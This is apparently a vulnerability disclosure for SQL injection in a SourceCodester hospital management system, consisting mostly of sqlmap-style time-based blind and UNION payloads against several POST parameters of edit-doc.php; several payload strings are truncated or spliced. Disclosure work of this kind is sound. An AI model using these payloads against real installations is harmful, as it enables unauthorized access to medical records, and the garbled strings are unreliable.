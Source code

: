 https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

## Free Hospital Management System for Small Practices 1.0
A vulnerability classified as critical has been found in SourceCodester Free Hospital Management System for Small Practices 1.0. Affected is an unknown function of the file vm\doctor\edit-doc.php

The manipulation of the argument $id00,$nic,$oldemail,$email,$spec,$Tele leads to sql injection

```
Parameter: id00 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2' AND (SELECT 3966 FROM (SELECT(SLEEP(5)))CuGj) AND 'fhTa'='for.com&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id00=-8690' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a4796872624b4e6f68496e55726767636669596c6d,0x7178707a71),NULL-- -&oldemail=doctorh Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassword=doctor

Parameter: nic (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.AT(SLEEP(5)))GcPL) AND 'lCet'='lCet&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: oldemail (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com' AND (SELECT 9085 FROM (SELECT(SLor.com&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com' AND (SEL='MEHA&name=Dr.Akash Sanap&nic=234&Tele=8080808080&spec=1&password=doctor&cpassw

Parameter: spec (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.AELECT 8937 FROM (SELECT(SLEEP(5)))anOk)&password=doctor&cpassword=doctor

Parameter: Tele (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id00=2&oldemail=doctor@doctor.com&email=doctor@doctor.com&name=Dr.A4213 FROM (SELECT(SLEEP(5)))NXCf) AND 'Mnoz'='Mnoz&spec=1&password=doctor&cpassw
```

![Alt text](image.png)